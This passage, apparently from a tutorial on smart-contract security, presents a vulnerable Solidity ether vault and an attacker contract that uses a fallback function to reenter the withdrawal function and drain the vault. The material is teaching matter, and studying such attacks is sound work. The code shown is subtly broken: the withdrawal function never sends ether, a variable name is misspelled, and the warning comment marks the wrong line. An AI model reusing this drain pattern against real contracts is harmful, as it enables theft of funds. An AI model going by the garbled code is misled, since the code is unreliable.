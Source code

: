 Let's consider the following vulnerable contract, which acts as a vault allowing users to withdraw 1 Ether per week.

```python
contract EtherStore{
        uint256 public withdrawalLimit = 1ether;
        mapping(address => uint256) public lastWithdraTime;
        mapping(address => uint256) public balances;
    
        function depositFunds() public payable{
            balances[msg.sender] += msg.value;
        }
    
        function withdrawFunds(uint256 _weiToWithdraw) public {
            require(balances[msg.sender] >= _weiToWithdraw);
            //limit the withdrawal
            require(_weiToWithdraw <= withdrawalLimit);
            //The following line has a vulnerability. Please try to think about what might be unreasonable.
            require(now >= lastWithdrawTime[msg.sender] + 1 weeks);
            balances[msg.sender] -= _weiToWithdraw;
            lastWithdrawTime[msg.sender] = now;
        }
    
    }
```

If an attacker creates a malicious contract as follows

```python
import "EtherStore.sol";
    
    contract Attack{
        EtherStore public etherStore;
    
        constructor( address _etherStoreAddress) {
            etherStore = EtherStore(_etherStoreAddress);
        }
    
        function attackEtherStore() public payable{
        
            //attack to the nearest ether
            require(msg.value >= 1 ether);
            
            //send eth to the depositFunds() function
            etherStore.depositFunds.value(1 ether)();
    
            //the gane begins
            etherStore.withdrawFunds(1 ether);
        
        }
    
        function collectEther() public{
            msg.sender.transfer(this.balance);
        }
    
        //fallback function - where the magic starts
        function() payable{
            if(etherStore.balance > 1 ether){
                etherStore.withdrawFunds(1 ether);
            }
        
        }
    
    }
```